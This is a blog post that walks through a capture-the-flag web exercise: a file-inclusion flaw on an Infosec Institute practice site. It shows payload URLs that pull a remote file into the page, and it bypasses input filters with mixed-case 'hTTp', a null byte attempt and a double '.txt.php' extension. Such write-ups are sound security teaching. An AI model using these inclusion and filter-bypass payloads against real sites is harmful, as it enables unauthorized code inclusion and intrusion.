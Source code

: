 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 4
category: Web
tags: infosec
---
```


**Vulnerability** A4 Insecure Direct Object References
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-17 at 1.42.57 AM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
This time we are presented with a web page that has 3 links, 'Bio', 'Clients' and 'About'. Each link embeds a text file into
the page, 'file1.txt', 'file2.txt' and 'file3.txt' respectively. The url parameter is 'file' with one of the txt filenames as
argument.

{% highlight text  %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=file1.txt
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=file2.txt
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=file3.txt
{% endhighlight %}

Lets try substituting the inserted text file with an php file located in http://infosecinstitute.com by using the
following url

{% highlight text %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=http://infosecinstitute.com/index.php
{% endhighlight %}

Unfortunately, we hit a filter.

![screen1]({{site.url}}/assets/Screen Shot 2015-07-17 at 2.00.10 AM.png)

We can bypass it by using some capital characters in the 'http' keyword like so

{% highlight text %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=hTTp://infosecinstitute.com/index.php
{% endhighlight %}

It looks like the filter was not case-insensitive and we were able to bypass it however,
now it doesn't like the file extension.

![screen2]({{site.url}}/assets/Screen Shot 2015-07-17 at 2.04.32 AM.png)

One trick to circumvent this is to insert a null byte (%00 url encoded), but this time it did not work.
After some trial and error I saw the second Hint stating that there's a regular-expression restriction,
so I changed the filename from index.php to 'file1.txt' with '.php' extension to successfully complete the level.

{% highlight text %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=hTTp://infosecinstitute.com/file1.txt.php
{% endhighlight %}

![screen2]({{site.url}}/assets/Screen Shot 2015-07-17 at 2.13.07 AM.png)

If I have to guess, their regular-expression restriction could be looking for the 3 'permitted' filenames, 'file1.txt',
'file2.txt' and 'file3.txt' when loading a file into the page.

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php>
